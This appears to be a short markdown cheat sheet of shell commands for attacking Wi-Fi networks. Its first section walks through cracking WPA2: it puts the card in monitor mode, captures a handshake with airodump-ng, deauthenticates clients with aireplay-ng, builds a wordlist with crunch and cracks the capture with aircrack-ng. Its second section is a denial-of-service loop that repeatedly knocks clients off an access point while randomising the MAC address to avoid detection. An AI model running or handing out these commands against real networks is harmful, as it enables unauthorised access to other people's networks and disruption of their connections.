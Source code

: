 ![img](img/04.jpg)

---
# Crack Wifi WPA2 Using Aircrack-ng
```sh
iwconfig
# Make sure you don't have any conflicting process
airmon-ng check kill
# Start monitor mode
airmon-ng start wlo1
# Check that interface is in monitor mode
iwconfig
# Discover access points of wireless networks
# You need "BSSID" and "Channel"
airodump-ng wlo1mon
# Capture handshake packets
airodump-ng --bssid <AP_MAC_ADDRESS> -c <AP_CHANNEL> -w /home/evan/cracking-example/handshake wlo1mon
# Deauthenticate clients from the network
aireplay-ng -0 10 -a <AP_MAC_ADDRESS> wlo1mon
# Generate password list
crunch 1 10 -f /usr/share/crunch/charset.lst lalpha-numeric -o wordlist.txt
# Crack
aircrack-ng -w /home/evan/cracking-example/wordlist.txt /home/evan/cracking-example/handshake-01.cap
# Stop monitor mode
airmon-ng stop wlo1
```

---

# DOS
```sh
while true
do
    aireplay-ng -0 10 -a <AP_MAC_ADDRESS> wlo1
    ifconfig wlo1 down
    macchanger -r wlo1
    iwconfig wlo1 mode monitor
    ifconfig wlo1 up
    sleep 5
done
```